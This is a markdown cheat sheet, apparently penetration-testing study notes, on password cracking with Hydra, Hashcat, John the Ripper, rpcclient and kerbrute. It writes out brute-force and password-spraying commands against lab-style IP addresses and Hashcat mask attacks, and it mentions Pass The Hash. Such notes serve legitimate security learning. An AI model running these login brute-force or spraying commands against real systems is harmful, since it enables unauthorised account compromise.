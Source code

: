 # Cracking
Password cracking involves various techniques and tools to recover or crack passwords from hashed or encrypted formats.
It has two main branches, 1) Online cracking passwords/Spray. 2) Offline cracking hashes.

* Online Password Cracking: Online password cracking involves attempting to crack passwords in real-time by directly interacting with the target system. While this approach is less common and not always effective, tools like Hydra can be used to automate online password guessing. Hydra is a versatile tool that supports a range of protocols, such as SSH, FTP, HTTP, and more, enabling automated login attempts using a provided wordlist or dictionary.

* Offline Password Hash Cracking: Offline password cracking refers to the process of cracking password hashes obtained from a target system without actively interacting with the system itself. Tools like Hashcat and John the Ripper are commonly used for offline cracking. Hashcat, leveraging the power of GPUs, is known for its speed and supports various hash types and attack modes, including dictionary attacks, brute-force attacks, and rule-based attacks. John the Ripper, another popular tool, can handle diverse password hash formats and offers flexible attack modes.

## Creating wordlists
![Pasted image 20230509090220](https://github.com/dbissell6/Shadow_Stone/assets/50979196/54c6eb3e-a0bd-4e30-ae44-2473c2703348)


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/e19d3ea8-7a76-4678-83dc-0e8bba6f894f)

```
hashcat --force password.list -r /usr/share/hashcat/rules/best64.rule --stdout | sort -u > mut_password.list
```
## Online
Last route, hard to crack, easy to get blocked.

### hydra login webpage
```
hydra -l admin -P rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```
### hydra ftp/ssh
![Pasted image 20230509090612](https://github.com/dbissell6/Shadow_Stone/assets/50979196/0be7b78a-b10d-4edf-b1cb-5b28402c216b)

### crackmapexec

<img width="681" alt="Screen Shot 2022-08-06 at 10 16 27 AM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/7ec8a6d2-1cb5-41da-860e-03ccd188f8f0">

![Pasted image 20220805223125](https://github.com/dbissell6/Shadow_Stone/assets/50979196/07107201-2407-44ba-8e22-95d1f5a0f9ca)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/665cab1d-ed45-478b-8caa-9c8ef85f0ba6)


### rpcclient to password spray
![Pasted image 20230508093804](https://github.com/dbissell6/Shadow_Stone/assets/50979196/404d14eb-881b-48d0-8fec-7fc0147330fb)

```
for u in $(cat usernames.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
### kerbrute to spray

![Pasted image 20230508093946](https://github.com/dbissell6/Shadow_Stone/assets/50979196/37b9f071-4e6e-4e66-953d-bd116c0f04ca)


## Offline
Remember, if trying to crack a hash of something from a windows system, even if the cracking fails you might still be able to Pass The Hash.

### hashcat example hashes

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/41352270-138e-4883-9a67-6c67197c3b95)


### hashcat bruteforce length 8 digits+uppercase

```
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

### zip password
![Pasted image 20220805161528](https://github.com/dbissell6/Shadow_Stone/assets/50979196/eeed6c7b-2722-4d0c-aa1b-82c38390554a)

![Pasted image 20220805161535](https://github.com/dbissell6/Shadow_Stone/assets/50979196/b48c3d5b-1cdc-41df-9346-302b54ba2d71)

### pfx
![Pasted image 20220805161711](https://github.com/dbissell6/Shadow_Stone/assets/50979196/30eb6a80-1283-430e-a0ad-723acc91a2d4)

### TGS ticket

![Pasted image 20230503093443](https://github.com/dbissell6/Shadow_Stone/assets/50979196/e734a700-997d-4ce9-abe2-a9622c1c6988)

![Pasted image 20230503093654](https://github.com/dbissell6/Shadow_Stone/assets/50979196/6d0336e0-2db4-4de3-bc22-20e7b46e5df2)

### AS-REPRoastable hashes
![Pasted image 20230503112725](https://github.com/dbissell6/Shadow_Stone/assets/50979196/28d33815-bf5f-4b74-841b-7e51389c715a)

